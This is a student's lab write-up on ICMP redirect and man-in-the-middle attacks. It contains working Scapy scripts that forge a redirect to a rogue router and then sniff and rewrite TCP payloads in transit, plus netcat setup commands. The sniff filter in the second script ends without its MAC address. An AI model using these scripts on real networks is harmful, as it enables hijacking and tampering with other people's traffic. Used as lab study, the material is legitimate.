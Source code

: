 # ICMP Redirect Lab

## Fei Guo, July 16, 2022

### Task 1: Launching ICMP Redirect Attack

This script will change the ip route cache on machine "10.9.0.5" for router "10.9.0.11" to malicious router'10.9.0.111', which can be used for MITM attack. Note this has to be run on a machine in a LAN, otherwise the router will drop it with the reverse path forward mechanism.
```
from scapy.all import *
ip = IP(src = '10.9.0.11',  dst = '10.9.0.5')
icmp = ICMP(type=5, code=0)
icmp.gw = '10.9.0.111'
# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = '10.9.0.5', dst = '10.9.0.11')
send(ip/icmp/ip2/ICMP());
```

### Task 2: Launching the MITM Attack

On the destination container 192.168.60.5, start the netcat server:
`nc -lp 9090`

On the victim container, connect to the server:
`nc 192.168.60.5 9090`

Disabling IP Forwarding on the malicious router:
`sysctl net.ipv4.ip_forward=0`

Then run this on the malicious router:
```
#!/usr/bin/env python3
from scapy.all import *

print("LAUNCHING MITM ATTACK.........")

def spoof_pkt(pkt):
   newpkt = IP(bytes(pkt[IP]))
   del(newpkt.chksum)
   del(newpkt[TCP].payload)
   del(newpkt[TCP].chksum)

   if pkt[TCP].payload:
       data = pkt[TCP].payload.load
       print("*** %s, length: %d" % (data, len(data)))

       # Replace a pattern
       newdata = data.replace(b'fei', b'AAA')

       send(newpkt/newdata)
   else:
       send(newpkt)

f = 'tcp and port 9090 and ether src not '
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```